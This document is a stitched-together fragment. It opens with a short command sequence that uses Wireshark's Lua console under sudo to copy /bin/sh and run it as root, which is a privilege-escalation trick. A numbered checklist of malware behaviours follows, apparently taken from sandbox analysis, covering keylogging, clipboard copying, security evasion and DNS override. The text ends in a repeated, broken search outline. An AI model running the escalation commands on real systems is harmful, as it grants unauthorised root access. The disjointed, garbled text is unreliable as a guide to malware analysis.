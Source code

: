 ```
sudo wireshark &
Tools -> Lua Console
os.execute("mkdir -p /user/bin")
os.execute("cp /bin/sh /user/bin/tshark")

sudo /user/bin/tshark
```

Start at System Summary  

1\. Attempts to get the victim to disable security protections
2\. Deletes Microsoft Office-related registry keys
3\. Creates registry keys associated with Microsoft Excel
4\. Creates any registry values
5\. Drops RegAsm virus
6\. Sends signals to force immediate program termination
7\. Malware file is most likely programmed in C or C++
8\. Attempts to detect presence of the Mirai botnet
9\. Attempts to use a keylogger
10\. Attempts to copy clipboard contents
11\. Hooks registry keys or values to maintain persistence via autostart
12\. Possible Personal Firewall (PFW) or Host-based Intrusion Prevention System (HIPS) evasion
13\. Executes or interacts with splwow64.exe (a Windows system component)
14\. Drops a portable executable file into C:\Windows
  a. The term “drop” in the behavior “Drops file(s)” means to create (or attempt to create) files, not delete them.
  b. For this behavior, we are only concerned with identifying dropped files.
15\. Looks for the name or serial number of a device
16\. Attempts to obscure data (e.g., through encoding, encryption, or obfuscation)
17\. Sends HTTP GET or POST requests without a user-agent header
18\. Uses loops or repeated commands (e.g., pings) to delay execution or evade sandbox analysis
19\. Attempts to override DNS resolution for a specific domain on the local machine
20\. Possible system shutdown behavior 


Start at System Summary
1. Lowering of HIPS / PFW / Operating System Security Settings
2. High Level Behavior Distribution
  Search Registry
  Search SetValue
3. High Level Behavior Distribution
  Search Registry
  Search SetValue
4. High Level Behavior Distribution
  Search Registry
5. Search RegAsm
6. Search

